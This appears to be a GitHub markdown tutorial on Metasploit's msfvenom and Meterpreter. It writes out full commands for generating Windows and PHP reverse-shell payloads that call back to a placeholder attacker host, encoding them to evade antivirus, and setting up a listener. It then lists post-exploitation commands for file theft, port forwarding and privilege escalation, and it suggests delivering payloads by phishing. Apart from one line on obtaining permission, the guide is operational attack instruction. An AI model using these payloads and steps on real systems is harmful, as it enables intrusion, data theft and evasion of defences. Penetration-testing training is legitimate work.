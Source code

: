 ```markdown
# Msfvenom and Meterpreter: Easy Examples and Explanations

This document provides an overview of `msfvenom` and `meterpreter`, two powerful tools within the Metasploit Framework. It includes easy-to-follow examples for creating custom payloads, using Meterpreter commands, and getting a Meterpreter shell ready and working.

---

## What is Msfvenom?

`msfvenom` is a Metasploit tool used to generate and encode custom payloads. It combines the functionality of the older `msfpayload` and `msfencode` tools into a single command-line utility.

### Key Features
- Generate payloads for various architectures and platforms.
- Encode payloads to evade antivirus (AV) and intrusion detection systems (IDS).
- Customize payloads with options like architecture, shell type, and output format.

---

## Creating Custom Payloads with Msfvenom

### Example 1: Generating a Reverse Shell Payload
1. **Command**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
   ```
2. **Explanation**:
   - `-p`: Specifies the payload (e.g., `windows/meterpreter/reverse_tcp`).
   - `LHOST`: The attacker's IP address.
   - `LPORT`: The port to listen on.
   - `-f`: Specifies the output format (e.g., `exe` for a Windows executable).
   - `-o`: Specifies the output file name (e.g., `shell.exe`).

3. **Output**:
   ```plaintext
   Payload size: 354 bytes
   Final size of exe file: 73802 bytes
   Saved as: shell.exe
   ```

4. **Use Case**:
   - Deliver the generated payload to the target system via phishing or social engineering.

---

### Example 2: Generating a Web Payload
1. **Command**:
   ```bash
   msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f raw > shell.php
   ```
2. **Explanation**:
   - Generates a PHP reverse shell payload.
3. **Use Case**:
   - Upload the `shell.php` file to a vulnerable web server to gain access.

---

### Example 3: Encoding a Payload to Evade Detection
1. **Command**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
   ```
2. **Explanation**:
   - `-e`: Specifies the encoder (e.g., `x86/shikata_ga_nai`).
   - `-i`: Specifies the number of encoding iterations.
3. **Use Case**:
   - Evade antivirus detection by encoding the payload multiple times.

---

## What is Meterpreter?

Meterpreter is a post-exploitation tool that provides an interactive shell on the compromised machine. It is loaded as a payload during exploitation and runs entirely in memory, leaving minimal traces on the target system.

### Key Features
- Upload and download files.
- Execute commands on the target system.
- Gather system information.
- Perform privilege escalation and lateral movement.

---

## Getting a Meterpreter Shell Ready and Working

### Step 1: Generate a Payload with Msfvenom
1. **Command**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
   ```

### Step 2: Deliver the Payload
- Use phishing, social engineering, or a vulnerable service to deliver the `shell.exe` file to the target machine.

### Step 3: Start a Listener in Metasploit
1. **Command**:
   ```bash
   msfconsole
   ```
2. **Set Up the Listener**:
   ```plaintext
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <attacker-ip>
   set LPORT 4444
   exploit
   ```

3. **Output**:
   ```plaintext
   [*] Started reverse TCP handler on <attacker-ip>:4444
   ```

### Step 4: Execute the Payload on the Target Machine
- When the target executes `shell.exe`, a Meterpreter session will open:
  ```plaintext
  meterpreter >
  ```

---

## Common Meterpreter Commands

### Basic Commands
1. **Check System Information**:
   ```plaintext
   meterpreter > sysinfo
   ```
   - **Output**:
     ```plaintext
     Computer        : WIN-MEGA01
     OS              : Windows 10 (Build 19041).
     ```

2. **List Running Processes**:
   ```plaintext
   meterpreter > ps
   ```

3. **Get User Information**:
   ```plaintext
   meterpreter > getuid
   ```
   - **Output**:
     ```plaintext
     Server username: MEGACORP\jdoe
     ```

---

### File Management
1. **Upload a File**:
   ```plaintext
   meterpreter > upload /path/to/file C:\\target\\path
   ```

2. **Download a File**:
   ```plaintext
   meterpreter > download C:\\target\\path /path/to/local
   ```

---

### Network Commands
1. **View Network Configuration**:
   ```plaintext
   meterpreter > ifconfig
   ```

2. **Set Up Port Forwarding**:
   ```plaintext
   meterpreter > portfwd add -l 8080 -p 80 -r <target-ip>
   ```

---

### Privilege Escalation
1. **Check Privileges**:
   ```plaintext
   meterpreter > getprivs
   ```

2. **Run Privilege Escalation Scripts**:
   ```plaintext
   meterpreter > run post/windows/escalate/getsystem
   ```

---

## Security Considerations

- **Payload Delivery**:
  - Use encrypted communication channels to avoid detection.
  - Test payloads in a controlled environment before deployment.

- **Antivirus Evasion**:
  - Use encoding techniques to bypass antivirus detection.
  - Consider using tools like `Veil` for advanced obfuscation.

- **Ethical Use**:
  - Always obtain written permission before using these tools in a penetration test.

---

By mastering `msfvenom` and `meterpreter`, you can effectively create custom payloads, exploit vulnerabilities, and perform post-exploitation activities. Always ensure ethical use of these tools.
```